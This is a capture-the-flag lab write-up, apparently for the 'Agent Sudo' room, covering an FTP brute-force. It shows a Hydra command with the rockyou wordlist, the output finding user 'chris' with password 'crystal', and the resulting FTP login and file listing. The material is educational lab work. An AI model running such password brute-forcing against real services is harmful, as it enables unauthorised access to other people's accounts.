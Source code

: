 
![img](https://raw.githubusercontent.com/TiXADZ/Write-Ups-THM-CTFs/main/images/Agent_Sudo/9.PNG#center)

Now, we have a username **`chris`** let's keep it for later and we also know from the message that he has weak credentials, so we can try to bruteforce other services accessible on the target machine with this username.


<details><summary><b>Questions / Answers : Enumerate</b></summary></details>

## FTP Bruteforce :bomb:

Let's try to bruteforce FTP using [Hydra](https://github.com/vanhauser-thc/thc-hydra) with the username `chris` using the following command:  

`hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP ftp`

`hydra -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp`

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-14 14:00:18
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.254.233:21/
[21][ftp] host: 10.10.254.233   login: chris   password: crystal 
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-14 14:01:16

```

We successfully bruteforce user `chris` on FTP. Let's log in to the FTP service with the credentials `chris:crystal` we just found :  

```
$ ftp $IP         
Connected to 10.10.254.233.
220 (vsFTPd 3.0.3)
Name (10.10.254.233:kali): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.

```
Let's download and take a look to those files on our machine! 
